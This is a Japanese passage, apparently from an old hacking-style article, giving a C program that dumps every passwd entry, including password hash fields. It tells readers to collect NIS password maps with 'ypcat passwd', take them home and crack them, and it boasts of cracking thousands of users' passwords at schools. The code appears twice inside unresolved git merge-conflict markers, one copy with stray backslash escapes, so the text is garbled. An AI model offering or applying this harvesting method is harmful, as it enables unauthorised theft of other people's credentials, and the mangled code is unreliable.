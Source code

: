　ちなみに、Cのプログラムならば、次のようになる。

<<<<<<< HEAD
-----  getusr.c
#include <stdio.h>
#include <pwd.h>

int main(void){
  struct passwd *p;
  while((p = getpwent()) != NULL)
    printf("%s:%s:%d:%d:%s:%s:%s\n",
           p->pw_name,
           p->pw_passwd,
           p->pw_uid,
           p->pw_gid,
           p->pw_gecos,
           p->pw_dir,
           p->pw_shell);
=======
\-\-\-\-\-  getusr.c
\#include <stdio.h>
\#include <pwd.h>

int main(void){
  struct passwd *p;
  while((p \= getpwent()) !\= NULL)
    printf("%s:%s:%d:%d:%s:%s:%s\n",
           p\->pw_name,
           p\->pw_passwd,
           p\->pw_uid,
           p\->pw_gid,
           p\->pw_gecos,
           p\->pw_dir,
           p\->pw_shell);
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

  return 0;
}
/* EOF */
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

% ypcat passwd > passwd
や
% perl getusr.pl > passwd

とファイルへリダイレクトし、それを家に持ち帰ろう。その後それを提出する予定
があるのなら、それを解くプログラムを作っておくと評価が上がるだろう。
　うちの学校ではこの方法で6000弱、某T大では、500弱のユーザーのパスワードが
取得解読可能だった。
